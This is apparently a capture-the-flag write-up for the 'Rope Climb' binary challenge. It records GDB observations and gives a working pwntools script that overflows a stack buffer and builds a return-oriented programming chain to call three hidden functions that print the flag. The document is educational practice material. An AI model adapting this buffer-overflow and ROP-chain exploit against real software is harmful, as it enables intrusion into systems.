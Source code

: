 # Rope Climb

> I heard that all you need to climb a mountain is a couple of gadgets and some rope. But the real skill is knowing where to place the gadgets along the way.

Observations from GDB `disas`:

1. `main()` calls `vuln()`, which simply reads input from stdin
2. There are functions `camp1()`, `camp2()`, `summit()` which are not being called in natural flow of the program. All three of these functions execute `fread` and then print the contents, possibly 3 parts of the flag. We need to construct a ROP chain.
3. `disas` each function to know:
    - vuln - input starts at **rbp-0x30**
    - camp1 - takes no args
    - camp2 - arg1: must be 0x67
    - summit - arg1: must be 0x63, arg2: must be 0x7466
4. `ROPgadget --binary ./chal` -> addresses of required gadgets

> It's always better add a RET gadget before every function call to be safe from any stack alignment issues

```python
from pwn import *

p = remote('climb.2024-bq.ctfcompetition.com',1337)
p.recvuntil(b'(Maybe some rope would help?)\n')

offset = 0x38
camp1 = 0x00000000004011d7
camp2 = 0x0000000000401253
summit = 0x00000000004012f3
pop_rdi_ret = 0x000000000040118a
pop_rsi_ret = 0x000000000040118c
ret = 0x0000000000401016

payload = offset*b'a'
payload += p64(ret) # Stack alignment
payload += p64(camp1)
payload += p64(pop_rdi_ret) + p64(0x67)
payload += p64(ret) # Stack alignment
payload += p64(camp2)
payload += p64(pop_rdi_ret) + p64(0x63)
payload += p64(pop_rsi_ret) + p64(0x7466)
payload += p64(ret) # Stack alignment
payload += p64(summit)

p.sendline(payload)
p.interactive()
```
